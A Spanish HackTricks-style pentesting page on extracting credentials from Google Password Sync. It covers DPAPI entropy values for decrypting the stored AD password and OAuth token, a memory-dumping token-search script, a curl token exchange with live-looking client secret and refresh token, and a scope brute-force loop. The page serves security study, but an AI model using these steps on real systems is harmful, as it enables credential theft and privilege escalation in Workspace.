 # GPS - Google Password Sync

{{#include ../../../banners/hacktricks-training.md}}

## Información Básica

Este es el binario y servicio que Google ofrece para **mantener sincronizadas las contraseñas de los usuarios entre el AD** y Workspace. Cada vez que un usuario cambia su contraseña en el AD, se establece en Google.

Se instala en `C:\Program Files\Google\Password Sync`, donde puedes encontrar el binario `PasswordSync.exe` para configurarlo y `password_sync_service.exe` (el servicio que seguirá ejecutándose).

### GPS - Configuración

Para configurar este binario (y servicio), es necesario **darle acceso a un principal de Super Admin en Workspace**:

- Iniciar sesión a través de **OAuth** con Google y luego **almacenará un token en el registro (encriptado)**
- Solo disponible en Controladores de Dominio con GUI
- Proporcionando algunas **credenciales de Cuenta de Servicio de GCP** (archivo json) con permisos para **gestionar los usuarios de Workspace**
- Muy mala idea, ya que esas credenciales nunca expiran y podrían ser mal utilizadas
- Muy mala idea dar acceso a una SA sobre workspace, ya que la SA podría ser comprometida en GCP y sería posible pivotar a Workspace
- Google lo requiere para dominios controlados sin GUI
- Estas credenciales también se almacenan en el registro

Respecto al AD, es posible indicarle que use el **contexto de aplicaciones actual, anónimo o algunas credenciales específicas**. Si se selecciona la opción de credenciales, el **nombre de usuario** se almacena dentro de un archivo en el **disco** y la **contraseña** está **encriptada** y almacenada en el **registro**.

### GPS - Extracción de contraseña y token del disco

> [!TIP]
> Ten en cuenta que [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) es capaz de detectar **GPS**, obtener información sobre la configuración y **incluso desencriptar la contraseña y el token**.

En el archivo **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** es posible encontrar parte de la configuración como el **`baseDN`** del AD configurado y el **`username`** cuyas credenciales se están utilizando.

En el registro **`HKLM\Software\Google\Google Apps Password Sync`** es posible encontrar el **token de actualización encriptado** y la **contraseña encriptada** para el usuario de AD (si la hay). Además, si en lugar de un token, se utilizan algunas **credenciales de SA**, también es posible encontrar esas encriptadas en esa dirección del registro. Los **valores** dentro de este registro son solo **accesibles** por **Administradores**.

La **contraseña encriptada** (si la hay) está dentro de la clave **`ADPassword`** y está encriptada usando la API **`CryptProtectData`**. Para desencriptarla, necesitas ser el mismo usuario que configuró la sincronización de contraseñas y usar esta **entropía** al usar **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

El token encriptado (si lo hay) está dentro de la clave **`AuthToken`** y está encriptado usando la API **`CryptProtectData`**. Para desencriptarlo, necesitas ser el mismo usuario que configuró la sincronización de contraseñas y usar esta **entropía** al usar **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Además, también está codificado usando base32hex con el diccionario **`0123456789abcdefghijklmnopqrstv`**.

Los valores de entropía se encontraron utilizando la herramienta. Se configuró para monitorear las llamadas a **`CryptUnprotectData`** y **`CryptProtectData`** y luego se utilizó la herramienta para lanzar y monitorear `PasswordSync.exe`, que desencriptará la contraseña y el token de autenticación configurados al principio y la herramienta **mostrará los valores de la entropía utilizada** en ambos casos:

<figure><img src="../../../images/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Ten en cuenta que también es posible ver los valores **desencriptados** en la entrada o salida de las llamadas a estas APIs también (en caso de que en algún momento Winpeas deje de funcionar).

En caso de que la sincronización de contraseñas se haya **configurado con credenciales de SA**, también se almacenará en claves dentro del registro **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Extracción de tokens de la memoria

Al igual que con GCPW, es posible volcar la memoria del proceso de `PasswordSync.exe` y los procesos de `password_sync_service.exe` y podrás encontrar tokens de actualización y acceso (si ya han sido generados).\
Supongo que también podrías encontrar las credenciales configuradas del AD.

<details>

<summary>Volcar <code>PasswordSync.exe</code> y los procesos de <code>password_sync_service.exe</code> y buscar tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Generando tokens de acceso a partir de tokens de actualización

Usando el token de actualización, es posible generar tokens de acceso utilizando este y el ID de cliente y el secreto de cliente especificados en el siguiente comando:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

> [!NOTE]
> Tenga en cuenta que incluso teniendo un refresh token, no es posible solicitar ningún scope para el access token, ya que solo puede solicitar los **scopes admitidos por la aplicación donde está generando el access token**.
>
> Además, el refresh token no es válido en todas las aplicaciones.

Por defecto, GPS no tendrá acceso como el usuario a todos los posibles scopes de OAuth, por lo que utilizando el siguiente script podemos encontrar los scopes que se pueden usar con el `refresh_token` para generar un `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Y esta es la salida que obtuve en el momento de la escritura:
```
https://www.googleapis.com/auth/admin.directory.user
```
¿Cuál es el mismo que obtienes si no indicas ningún alcance?

> [!CAUTION]
> Con este alcance podrías **modificar la contraseña de un usuario existente para escalar privilegios**.

{{#include ../../../banners/hacktricks-training.md}}
